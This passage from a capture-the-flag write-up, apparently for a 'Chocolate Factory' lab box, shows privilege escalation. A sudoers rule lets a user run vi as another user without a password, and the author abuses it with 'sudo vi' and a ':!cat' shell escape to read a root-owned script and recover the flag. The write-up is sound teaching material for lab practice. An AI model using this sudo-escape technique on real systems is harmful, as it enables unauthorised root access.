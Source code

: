 Now, privilege escalation. Let's check the sudoers file:
```
cat /etc/sudoers

<SNIP>
charlie ALL=(ALL:!root) NOPASSWD:/usr/bin/vi
<SNIP>
```
We can use the console in VI for running commands as sudo. So, just run `sudo vi` and then execute commands in the VI console:
```
sudo vi

:!cat /root/root.py
Enter the key:-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY= <let's type the key we found at the beginning>
```
Save the content of the Python script in your local machine in a `root.py` and run it:
```
python root.py                
Enter the key:  -VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                                                             
  ___                              ___   __  
 / _ \__      ___ __   ___ _ __   / _ \ / _| 
| | | \ \ /\ / / '_ \ / _ \ '__| | | | | |_  
| |_| |\ V  V /| | | |  __/ |    | |_| |  _| 
 \___/  \_/\_/ |_| |_|\___|_|     \___/|_|   
                                             

  ____ _                     _       _       
 / ___| |__   ___   ___ ___ | | __ _| |_ ___ 
| |   | '_ \ / _ \ / __/ _ \| |/ _` | __/ _ \
| |___| | | | (_) | (_| (_) | | (_| | ||  __/
 \____|_| |_|\___/ \___\___/|_|\__,_|\__\___|
                                             
 _____          _                    
|  ___|_ _  ___| |_ ___  _ __ _   _  
| |_ / _` |/ __| __/ _ \| '__| | | | 
|  _| (_| | (__| || (_) | |  | |_| | 
|_|  \__,_|\___|\__\___/|_|   \__, | 
                              |___/  

flag{cec59161d338fef787fcb4e296b42124}
```